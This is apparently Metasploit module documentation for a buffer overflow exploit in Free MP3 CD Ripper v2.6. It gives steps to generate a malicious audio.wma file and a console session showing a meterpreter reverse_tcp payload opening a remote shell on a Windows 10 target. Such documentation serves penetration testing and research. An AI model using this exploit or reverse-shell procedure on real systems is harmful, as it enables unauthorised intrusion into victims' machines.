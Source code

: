 ## Description

Free MP3 CD Ripper v2.6 has a buffer overflow vulnerability in its Convert functionality. This module generates a file that will trigger the vulnerability to run arbitrary code when the file is loaded using the Convert feature. This module has been test against Free MP3 CD Ripper v2.6 on Windows 10 x64.

## Vulnerable Application

[Free MP3 CD Ripper v2.6](https://web.archive.org/web/20140430210056/http://www.itusoft.com/cd_ripper/free_cd_ripper.htm)

## Verification Steps

- `./msfconsole -q`
- `use exploit/windows/fileformat/free_mp3_ripper_convert`
- `run`
- Set up a handler
- Copy over the generated file to the target host and use the Convert feature to load it
- Get a shell

## Scenarios

### Free MP3 CD Ripper v2.6 running on Windows 10 Pro x64

```
msf5 > use exploit/windows/fileformat/free_mp3_ripper_convert
msf5 exploit(windows/fileformat/free_mp3_ripper_convert) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/free_mp3_ripper_convert) > set lhost 172.22.222.136 
lhost => 172.22.222.136
msf5 exploit(windows/fileformat/free_mp3_ripper_convert) > run

[+] audio.wma stored at /home/msfdev/.msf4/local/audio.wma
msf5 exploit(windows/fileformat/free_mp3_ripper_convert) > handler -p windows/meterpreter/reverse_tcp -H 172.22.222.136 -P 4444
[*] Payload handler running as background job 0.
msf5 exploit(windows/fileformat/free_mp3_ripper_convert) > 
[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 1 opened (172.22.222.136:4444 -> 172.22.222.200:49674) at 2018-10-14 08:20:56 -0500
sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```
